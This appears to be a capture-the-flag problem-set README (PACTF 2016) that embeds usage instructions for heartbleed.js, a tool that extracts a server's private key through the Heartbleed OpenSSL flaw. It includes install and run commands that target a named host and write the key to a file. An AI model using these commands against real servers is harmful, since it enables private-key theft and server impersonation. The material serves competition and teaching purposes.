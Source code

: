 # PACTF Problem Set 2016
This repository contains the 2016 PACTF problem set.

You must agree to the 'Confidentiality Warning' and the 'Contributor Agreement', as specified below. Otherwise, you must immediately remove your access to this repository, destroy all copies of information obtained from this repository, and notify us immediately at contact@pactf.com.

## Confidentiality Warning
This repository contains confidential and proprietary information. The unauthorized possession, use, reproduction, distribution, display or disclosure of material in this repository is prohibited. The information contained in this repository should not be disclosed or reproduced in whole or in part, except as part of the PACTF.com website for the sole purpose of facilitating the necessary operations of the PACTF competition.

## Contributing
By contributing to this repository, you understand and fully accept our [Contributor Agreement](CONTRIBUTING.md).

## Heartbleed

Extracting server private key using [Heartbleed][0] OpenSSL vulnerability.

NOTE: Pointing this tool at other people's servers is illegal in most countries.

### How to use

```bash
$ npm install -g heartbleed.js
$ heartbleed
Options:
  --host         [required]
  --port         [default: 443]
  --concurrency  [default: 1]

Missing required arguments: host

$ heartbleed -h cloudflarechallenge.com -c 1000 >> key.pem
```

Protip, use cheap ciphers:

```bash
heartbleed -h cloudflarechallenge.com -c 1000 --ciphers="AES128-SHA" >> key.pem
```

#### LICENSE

This software is licensed under the MIT License.

Copyright Fedor Indutny, 2014.

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
"Software"), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to permit
persons to whom the Software is furnished to do so, subject to the
following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN
NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM,
DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR
OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE
USE OR OTHER DEALINGS IN THE SOFTWARE.

[0]: http://heartbleed.com/
